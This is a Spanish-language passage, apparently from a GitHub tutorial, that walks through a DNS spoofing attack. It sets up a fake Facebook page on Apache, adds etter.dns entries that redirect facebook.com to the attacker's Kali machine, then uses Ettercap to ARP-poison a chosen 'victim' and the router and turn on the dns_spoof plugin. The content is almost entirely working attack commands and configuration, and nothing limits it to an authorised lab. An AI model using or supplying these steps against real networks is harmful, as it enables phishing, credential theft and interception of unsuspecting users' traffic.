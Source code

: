 Pon tu página falsa en:

```bash
cd /var/www/html
sudo nano index.html
```

Contenido simple:

```html
<h1>Esto es un sitio falso de Facebook</h1>
```

##### 3️⃣ Configura el archivo de DNS spoofing

Edita el archivo `/usr/share/ettercap/etter.dns`:

```bash
sudo nano /usr/share/ettercap/etter.dns
```

Agrega una línea así:

```
facebook.com A 192.168.1.100
*.facebook.com A 192.168.1.100
```

Eso redirige cualquier subdominio de facebook.com a tu máquina Kali.

##### 4️⃣ Inicia Ettercap en modo gráfico

```bash
sudo ettercap -G
```

#### En Ettercap:

1. Ve a `Sniff` → `Unified sniffing`
2. Selecciona tu interfaz de red (ej: `eth0`)
3. Ve a `Hosts` → `Scan for hosts`
4. Ve a `Hosts` → `Host list`
5. Selecciona tu **víctima** y el **router**

   - Añade a la víctima como Target 1
   - Añade al router como Target 2

6. Ve a `Mitm` → `ARP poisoning`

   - Marca **"Sniff remote connections"**

7. Ve a `Plugins` → `Manage plugins`

   - Haz doble clic en `dns_spoof` para activarlo

---

##### 5️⃣ ¡Ataque en acción!

- La víctima intenta acceder a `facebook.com`
- El navegador será redirigido a tu servidor Apache (el sitio falso)
- Puedes usar **Wireshark** para monitorear y ver las respuestas DNS falsas

---